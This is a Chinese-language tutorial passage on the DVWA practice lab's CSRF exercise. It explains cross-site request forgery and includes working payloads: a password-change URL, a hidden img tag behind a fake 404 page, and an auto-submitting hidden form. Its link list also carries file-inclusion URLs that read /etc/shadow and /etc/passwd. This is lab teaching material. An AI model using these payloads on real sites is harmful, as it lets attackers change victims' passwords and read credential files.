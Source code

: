 ```php
```
 
所谓的CSRF（Cross-site request forgery）直白的翻译就是跨站点请求伪造。说人话就是攻击者通过诱使victim访问其精心构造的url或者访问其精心构造的页面，来使得攻击者可以以victim的身份做诸如发邮件，发消息，改密码等骚操作。在DVWA这个系列里面，模拟的是修改密码的界面。先来看下low等级的代码，可以说是没有进行仍和的再认证，试下为啥是“再认证”？其实我们在访问到这个修改密码界面的时候，已经登陆过一次，服务器会在每次访问时检查session。所以这是第一道认证。但是这种会话级别的认证对csrf是没有抵抗力的。具体的过程可以参看之前提到的链接。我们可以直接构造url： [http://localhost/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#][14] 。
 
让victim访问，或者使用更加隐匿的：

```css
<style>
   form{
    display:none;
   }
</style>
```
 
构造无迹表单,结合js发送请求，或者：

```html
<img src="http://192.168.153.130/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0"    style="display:none;"/>
```
 
来实现欺骗隐匿行踪，达到修改密码的目的。顺便盗用两个别人的poc方便展示：
 
(1) 图片形式诱导

```html
<img src="http://192.168.153.130/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```

(2) 隐藏表单的形式

```html
 <body onload="javascript:csrf()">
   <script>
   function csrf(){
    document.getElementById("button").click();
   }
   </script>
   <style>
   form{
    display:none;
   }
   </style>
        <form action="http://www.dvwa.com/vulnerabilities/csrf/?" method="GET">
            New password:<br />
            <input type="password" AUTOCOMPLETE="off" name="password_new" value="test"><br />
            Confirm new password:<br />
            <input type="password" AUTOCOMPLETE="off" name="password_conf" value="test"><br />
            <br />
            <input type="submit" id="button" name="Change" value="Change" />
        </form>
</body>
```
 

[6]: http://php.net/manual/zh/ini.core.php#ini.variables-order
[7]: http://php.net/manual/zh/ref.filesystem.php
[8]: http://php.net/manual/zh/ref.info.php
[9]: http://php.net/manual/zh/book.exec.php
[10]: http://php.net/manual/zh/types.comparisons.php
[11]: http://php.net/manual/zh/pdo.prepared-statements.php%E3%80%82
[12]: http://php.net/manual/zh/pdo.constants.php%E3%80%82
[13]: http://www.freebuf.com/articles/web/118352.html
[14]: http://localhost/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change#
[15]: https://developer.mozilla.org/en-US/docs/Glossary/Forbidden_header_name
[16]: http://localhost/dvwa/vulnerabilities/fi/page=/etc/shadow
[17]: http://localhost/dvwa/vulnerabilities/fi/page=/etc/shadow
[18]: http://localhost/dvwa/vulnerabilities/fi/page=http://
[19]: http://localhost/dvwa/vulnerabilities/fi/page=http://
[20]: http://localhost/vulnerabilities/fi/?page=file:///etc/passwd
[21]: http://localhost/vulnerabilities/fi/?page=file:///etc/passwd
[22]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types%EF%BC%89
[23]: http://php.net/manual/zh/function.getimagesize.php%EF%BC%89
[24]: file:///%24%7Btarget_path%7D%24%7Btarget_file%7D
[25]: https://www.sitepoint.com/top-10-php-security-vulnerabilities/
[26]: http://blog.jobbole.com/53821/
[27]: https://www.owasp.org/index.php/PHP_Configuration_Cheat_Sheet
[28]: http://www.dvwa.co.uk/
[29]: https://github.com/Go0s/LFIboomCTF
[0]: https://img2.tuicool.com/q2YJVvU.jpg
[1]: =#
[2]: http://192.168.153.130/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#
[3]: https://img1.tuicool.com/2maeyaz.jpg
[4]: \"{$avatar}\"
[5]: \"{$avatar}\"